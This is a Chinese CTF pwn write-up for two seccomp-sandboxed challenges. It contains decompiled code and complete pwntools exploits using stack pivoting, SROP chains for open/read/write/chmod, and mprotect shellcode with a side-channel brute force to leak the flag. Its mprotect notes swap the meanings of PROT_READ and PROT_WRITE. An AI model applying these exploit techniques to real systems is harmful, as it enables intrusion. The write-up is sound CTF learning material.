

## 源码
### main 函数

### sub_40143E(a1,a2,a3)
```c
int sub_40143E()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}
```
### sub_40119E()

```c
__int64 sub_40119E()
{
  __int64 result; // rax
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  if ( !v1 )
  {
    perror("seccomp_init");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 1LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 90LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 231LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 15LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  result = seccomp_load(v1);
  if ( (int)result < 0 )
  {
    perror("seccomp_load");
    exit(1);
  }
  return result;
}
```
添加了一些沙箱规则
### 沙箱规则

允许 read、write、open、rt_sigreturn、chmod 函数（显然可能需要用到 SROP）
不允许 exit_group 函数
### sub_40136E()

```c
__int64 sub_40136E()
{
  char v1[10]; // [rsp+6h] [rbp-2Ah] BYREF
  _QWORD v2[4]; // [rsp+10h] [rbp-20h] BYREF

  v2[0] = 0x6F6E6B2075206F44LL;
  v2[1] = 0x6920746168772077LL;
  v2[2] = 0xA3F444955532073LL;
  strcpy(v1, "easyhack\n");
  syscall(1LL, 1LL, v1, 9LL);
  syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(1LL, 1LL, v2, 24LL);
  syscall(0LL, 0LL, v1, 58LL);
  return 0LL;
}
```
1. 先打印出 v1 的九个字符
2. 然后往 bss 段偏移 404060 的位置读入 4096 字节
3. 然后把 v2 中的 24 字节输出到终端
4. 然后往 v1 读入 58 字节
## 思路
存在栈溢出漏洞，且只能修改 rbp 和返回地址——显然需要栈迁移
如果栈迁移后直接使用从 onegadget 得到的 shellcode，需要满足的条件比较苛刻，而且还需要获取 libc 基址
获取基址应该可以通过执行两次 sub_40136E() 函数来实现（从第二次开始，需要把 rsp 恢复成符合 call 调用方式的样子，即 rsp 需要减 8），因为 v1 既有输出也有输入。满足对应 shellcode 的条件比较麻烦——期待大家的尝试


所以如果没法 getshell，就用 orw——结合沙箱来看这也很明显。orw 需要很多与 syscall 相关的 gadget，在没有获取 libc 基址的情况下，对应的 gadget 可以通过 SROP 实现

1. 第一次输入构造栈迁移之后的 ROP 链
   ROP 链：
   构造第一次 read 的 sigreturn 帧，把我们需要的 flag 文件路径字符串输入到可写内存位置
   此时是否需要 chmod 的 sigreturn 帧，视情况而定
   构造第一次 open 的 sigreturn 帧，打开 flag 对应的文件；对应的文件描述符为 3
   构造第二次 read 的 sigreturn 帧，将 flag 文件的内容读入某个可写的内存位置
   构造第一次 write 的 sigreturn 帧，把写入内存中的 flag 内容输出到终端，从而获得 flag
   
3. 第二次输入执行栈迁移，跳转到上面构造的 ROP 链

## 说明

rt_sigreturn 系统调用函数会更新所有寄存器的值，未设置的默认为 0，所以把每个需要的寄存器都设置好即可——不存在依赖顺序的先后更新关系。

> 创建文件 1 和文件 2 时，由于进程启动时先打开了 0、1、2（分别对应 stdin、stdout、stderr），所以 fd1=3，fd2=4。
> 文件 1 关闭后，fd=3 被释放，所以创建文件 3 时，fd3 会被分配当前最小的描述符，也就是刚释放的 fd1，所以 fd=3。

open 和 chmod 函数的参数设置有点特殊，因为涉及字符串，在 sigreturn 帧中设置起来比较麻烦。
对于 chmod
> int chmod(const char *pathname, mode_t mode);
第二个参数有如下设置，可以通过 OR 组合同时设置
S_ISUID	set-user-ID on execution
S_ISGID	set-group-ID on execution
S_ISVTX	saved-text (sticky bit)
S_IRWXU	user read, write, execute
S_IRUSR	user read
S_IWUSR	user write
S_IXUSR	user execute
S_IRWXG	group read, write, execute
S_IRGRP	group read
S_IWGRP	group write
S_IXGRP	group execute
S_IRWXO	others read, write, execute
S_IROTH	others read
S_IWOTH	others write
S_IXOTH	others execute


sigreturn 帧中对应的设置是 constants.S_IRUSR | constants.S_IRGRP | constants.S_IROTH，即 用户读 | 组读 | 其他用户读
```python
fram_chmod=SigreturnFrame()
fram_chmod.rax=constants.SYS_chmod
fram_chmod.rdi=data
fram_chmod.rsi=constants.S_IRUSR | constants.S_IRGRP | constants.S_IROTH
fram_chmod.rsp=0x404060+272+272
fram_chmod.rip=syscall_poprbp_ret

```

> int open(const char *pathname, int flags);

第一个参数 path 表示：一个路径名或文件名。路径名是绝对路径（如 C:/cpp/a.cpp），而文件则位于当前工作目录下。

第二个参数 oflags 表示：打开文件时采取的动作。

    可选值：必须且只能指定以下之一：

    O_RDONLY（只读）、

    O_WRONLY（只写）、

    O_RDWR（可读写）

打开/创建文件时，必须使用上述三个常量之一
以下常量是可选的；这些选项与上面的必选项按位或运算，组成 flags 参数。

- O_APPEND 表示追加；如果原文件有内容，这次写入会写到文件的最末尾。
- O_CREAT 表示：如果指定的文件不存在，则创建该文件
- O_EXCL 表示：如果要创建的文件已经存在，则出错，返回 -1，并修改 errno 的值。
- O_TRUNC 表示截断；如果文件存在并以只写或读写方式打开，则将其长度截断为 0。
- O_NOCTTY：如果路径名指向终端设备，则不要把该设备作为控制终端。
- O_NONBLOCK：如果路径名指向 FIFO/块文件/字符文件，则将文件打开及后续 I/O 设置为非阻塞模式-

**以下三个常量同样是可选的，用于同步 I/O**

- O_DSYNC：写操作等待物理 I/O 完成。在不影响读取新写入数据的前提下，不等待文件属性更新。
- O_RSYNC：读操作要等到对同一区域的所有写操作都完成后才继续
- O_SYNC：写操作等待物理 I/O 完成，包括更新文件属性的 I/O

sigreturn 帧中对应的设置是 constants.O_RDONLY，这里以只读方式打开
```python
fram_open=SigreturnFrame()
fram_open.rax=constants.SYS_open
fram_open.rdi=data
fram_open.rsi=constants.O_RDONLY
fram_open.rdx=0
fram_open.rsp=0x404060+272+272+272
fram_open.rip=syscall_poprbp_ret
```

## exp

### 不使用 chmod 的版本

```python
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
s=process("./chall")
elf=ELF("./chall")
#gdb.attach(s,"b*0x40143D")
bss=0x404060
data=0x0000000000404000
mov_rax_0xf_ret=0x0000000000401193
leave_ret=0x000000000040143C
syscall_poprbp_ret=0x000000000040118A

fram_read1=SigreturnFrame()
fram_read1.rax=constants.SYS_read
fram_read1.rdi=0
fram_read1.rsi=data
fram_read1.rdx=32
fram_read1.rsp=0x404060+272
fram_read1.rip=syscall_poprbp_ret
"""  
不一定会用到
fram_chmod=SigreturnFrame()
fram_chmod.rax=constants.SYS_chmod
fram_chmod.rdi=data
fram_chmod.rsi=7
fram_chmod.rsp=0x404060+272+272
fram_chmod.rip=syscall_poprbp_ret

"""
fram_open=SigreturnFrame()
fram_open.rax=constants.SYS_open
fram_open.rdi=data
fram_open.rsi=constants.O_RDONLY
fram_open.rdx=0
fram_open.rsp=0x404060+272+272 # +272
fram_open.rip=syscall_poprbp_ret

fram_read2=SigreturnFrame()
fram_read2.rax=constants.SYS_read
fram_read2.rdi=3 # 第一个打开的文件描述符默认为3
fram_read2.rsi=0x0000000000404000+8
fram_read2.rdx=32
fram_read2.rsp=0x404060+272+272+272#+272 如果用到chmod 的frame需要加272
fram_read2.rip=syscall_poprbp_ret

fram_write=SigreturnFrame()
fram_write.rax=constants.SYS_write
fram_write.rdi=1
fram_write.rsi=0x0000000000404000+8
fram_write.rdx=32
fram_write.rsp=0x404060+272+272+272+272#+272 如果用到chmod 的frame需要加272
fram_write.rip=syscall_poprbp_ret

payload=p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_read1)# 往bss段输入rop链
print("payload的长度：",len(payload))# 272

#payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_chmod)


payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_open)


payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_read2)


payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_write)

s.recvuntil(b"easyhack\n")
s.send(payload)


payload=42*b"a"+p64(bss)+p64(leave_ret)  # 溢出修改rbp和返回地址使得栈迁移到bss上
s.recvuntil(b"Do u know what is SUID?\n")
s.send(payload)

payload=b"./flag\x00"
s.send(payload)# 栈迁移后第一次read输入
s.interactive()
```
### 使用 chmod 的版本

```python
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
s=process("./chall")
elf=ELF("./chall")
#gdb.attach(s,"b*0x40143D")
bss=0x404060
data=0x0000000000404000
mov_rax_0xf_ret=0x0000000000401193
leave_ret=0x000000000040143C
syscall_poprbp_ret=0x000000000040118A

fram_read1=SigreturnFrame()
fram_read1.rax=constants.SYS_read
fram_read1.rdi=0
fram_read1.rsi=data
fram_read1.rdx=32
fram_read1.rsp=0x404060+272
fram_read1.rip=syscall_poprbp_ret


fram_chmod=SigreturnFrame()
fram_chmod.rax=constants.SYS_chmod
fram_chmod.rdi=data
fram_chmod.rsi=constants.S_IRUSR | constants.S_IRGRP | constants.S_IROTH
fram_chmod.rsp=0x404060+272+272
fram_chmod.rip=syscall_poprbp_ret


fram_open=SigreturnFrame()
fram_open.rax=constants.SYS_open
fram_open.rdi=data
fram_open.rsi=constants.O_RDONLY
fram_open.rdx=0
fram_open.rsp=0x404060+272+272+272
fram_open.rip=syscall_poprbp_ret

print("open的第二个参数",constants.O_RDONLY)# 就是O_RDONLY 
print("chmod的第二个参数",constants.S_IRUSR | constants.S_IRGRP | constants.S_IROTH)
fram_read2=SigreturnFrame()
fram_read2.rax=constants.SYS_read
fram_read2.rdi=3 # 第一个打开的文件描述符默认为3
fram_read2.rsi=0x0000000000404000+8
fram_read2.rdx=32
fram_read2.rsp=0x404060+272+272+272+272
fram_read2.rip=syscall_poprbp_ret

fram_write=SigreturnFrame()
fram_write.rax=constants.SYS_write
fram_write.rdi=1
fram_write.rsi=0x0000000000404000+8
fram_write.rdx=32
fram_write.rsp=0x404060+272+272+272+272+272
fram_write.rip=syscall_poprbp_ret

payload=p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_read1)# 往bss段输入rop链
print("payload的长度：",len(payload))# 272

payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_chmod)


payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_open)


payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_read2)


payload=payload+p64(0)+p64(mov_rax_0xf_ret)+p64(syscall_poprbp_ret)+bytes(fram_write)

s.recvuntil(b"easyhack\n")
s.send(payload)


payload=42*b"a"+p64(bss)+p64(leave_ret)  # 溢出修改rbp和返回地址使得栈迁移到bss上
s.recvuntil(b"Do u know what is SUID?\n")
s.send(payload)

payload=b"./flag\x00"
s.send(payload)# 栈迁移后第一次read输入
s.interactive()
```


# 2023 安洵杯 - PWN - [side_channel]


## side_channel libc 2.37

## 检查

write 被禁用了；可以使用 open、read 和 mprotect
## IDA 源码

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  sub_401448();
  sub_40136E();
  return 0LL;
}
```

```c
int sub_401448()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  return setvbuf(stderr, 0LL, 2, 0LL);
}
```

```c
__int64 sub_40136E()
{
  char v1[10]; // [rsp+6h] [rbp-2Ah] BYREF
  _QWORD v2[4]; // [rsp+10h] [rbp-20h] BYREF

  v2[0] = 0x6F6E6B2075206F44LL;
  v2[1] = 0x6920746168772077LL;
  v2[2] = 0xA3F444955532073LL;
  strcpy(v1, "easyhack\n");
  syscall(1LL, 1LL, v1, 9LL);
  syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(1LL, 1LL, v2, 24LL);
  sub_40119E();
  syscall(0LL, 0LL, v1, 58LL);
  return 0LL;
}
```

```c
__int64 sub_40119E()
{
  __int64 result; // rax
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  if ( !v1 )
  {
    perror("seccomp_init");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 0LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 2LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 90LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 231LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 15LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  if ( (int)seccomp_rule_add(v1, 2147418112LL, 10LL, 0LL) < 0 )
  {
    perror("seccomp_rule_add");
    exit(1);
  }
  result = seccomp_load(v1);
  if ( (int)result < 0 )
  {
    perror("seccomp_load");
    exit(1);
  }
  return result;
}
```
## 思路
与之前的题目类似，但这里需要进行旁路（side-channel）爆破，并使用 mprotect 修改内存段属性。
把栈迁移到 bss 段，然后使用 SROP 依次调用 open、read、mprotect 和 shellcode。
使用 mprotect 之后，也就是 syscall 之后，pop rbp, ret；此时 ret 处栈顶的内容就是 bss 上 shellcode 的地址。
### 选择合适的 syscall gadget
用 ROPgadget 什么都没找到。
但在 IDA 中检查却确实存在——就当是吸取一次教训。


### 寻找可以写入 shellcode 的内存区域

为了能够写入并执行 shellcode，该区域需要具有 w 和 x 权限。检查下来发现没有一处符合，因此需要修改内存段的权限。

### 使用 mprotect() 修改属性
mprotect() 函数把起始地址为 start、长度为 len 的内存区域的保护属性，修改为 prot 指定的值。

```c
#include <unistd.h>
#include <sys/mmap.h>
int mprotect(const void *start, size_t len, int prot);
```
**注意 start 必须是页的起始地址，len 必须是页大小的整数倍**

**注意即使原来的属性包含 PROT_READ 和 PROT_WRITE，如果传给 mprotect 的参数是 PROT_EXEC，那么就只会保留 PROT_EXEC 这一个属性；此时任何读或写操作都会引发异常**
prot 可以取以下值，多个属性之间可以用 "|" 组合：

-  PROT_READ：表示内存段的内容可写；

- PROT_WRITE：表示内存段的内容可读；

- PROT_EXEC：表示内存段的内容可执行；

- PROT_NONE：表示内存段的内容完全不可访问。

需要指出的是，指定的内存范围必须覆盖完整的内存页（4K）。范围的起始地址 start 必须是内存页的起始地址，范围长度 len 必须是页大小的整数倍。


如果调用成功，返回 0；如果失败，返回 -1 并设置 errno 来指明具体的失败原因。主要的出错原因如下：

1) EACCES
内存无法被设置为相应的权限。例如，如果你以只读方式 mmap(2) 一个文件，然后又用带 PROT_WRITE 标志的 mprotect() 来处理它，就会出现这种情况。

2) EINVAL

start 不是一个有效的指针；它没有指向某个内存页的起始位置。

3) ENOMEM

内核内部的结构体无法被分配。

4) ENOMEM

进程地址空间中 [start, start+len] 这段范围无效，或者其中一个或多个内存页没有被映射。

如果调用进程的内存访问违反了这些已设置的保护属性，内核会向该进程产生一个 SIGSEGV（段错误）信号并终止该进程。


## exp
注意只有当 flag 为 "" 时，才能向其中添加字符并通过 print 输出；当 flag 为 0 时，添加字符不会有任何输出。

```python
from pwn import*
context(os="linux",arch="amd64")

#gdb.attach(f, "b main")
flag=""
for one in range(0,40):
    for two in range(0x20,0x80):
        try:
            f=process("./chall")# 创建了一个进程
            leave_ret=0x401446
            bss=0x404060
            mov_rax_0xf=0x0000000000401193
            syscall_pop_rbp_ret=0x000000000040118A

            fram_open=SigreturnFrame()
            fram_open.rax=constants.SYS_open
            fram_open.rdi=bss
            fram_open.rsi=constants.O_RDONLY
            fram_open.rip=syscall_pop_rbp_ret
            fram_open.rsp=bss+248+16+8

            fram_read=SigreturnFrame()
            fram_read.rax=constants.SYS_read
            fram_read.rdi=3
            fram_read.rsi=bss
            fram_read.rdx=40
            fram_read.rip=syscall_pop_rbp_ret
            fram_read.rsp=bss+248+16+248+16+16

            shellcode='''
            loop:
            cmp byte ptr[0x404060+{0}], {1}
            jz loop
            '''.format(one,two)

            shellcode_address=bss+248+16+248+16+16+24+248+16

            fram_mprotect=SigreturnFrame()
            fram_mprotect.rax=constants.SYS_mprotect
            fram_mprotect.rdi=0x404000  #为页的起始地址
            fram_mprotect.rsi=0x1000
            fram_mprotect.rdx=constants.PROT_EXEC|constants.PROT_READ|constants.PROT_WRITE
            fram_mprotect.rip=syscall_pop_rbp_ret
            fram_mprotect.rsp=bss+248+16+248+16+16+24+248


            payload1=b"./flag"+2*b"\x00"+p64(mov_rax_0xf)+p64(syscall_pop_rbp_ret)+bytes(fram_open)+p64(0)+p64(mov_rax_0xf)+p64(syscall_pop_rbp_ret)+bytes(fram_read)+p64(0)+p64(mov_rax_0xf)+p64(syscall_pop_rbp_ret)+bytes(fram_mprotect)+p64(0)+p64(shellcode_address)+asm(shellcode)
            f.sendlineafter(b"easyhack\n",payload1)

            payload2=0x2a*b"a"+p64(bss)+p64(leave_ret)
            f.sendlineafter(b"Do u know what is SUID?\n",payload2)
            
            f.recv(timeout=1)
            f.close()

            flag=flag+chr(two)
            print("flag:",flag)
            one=one+1
            break
        except:
            pass
            f.close()# 不关闭导致运行的进程过多而停止
            two=two+1

```


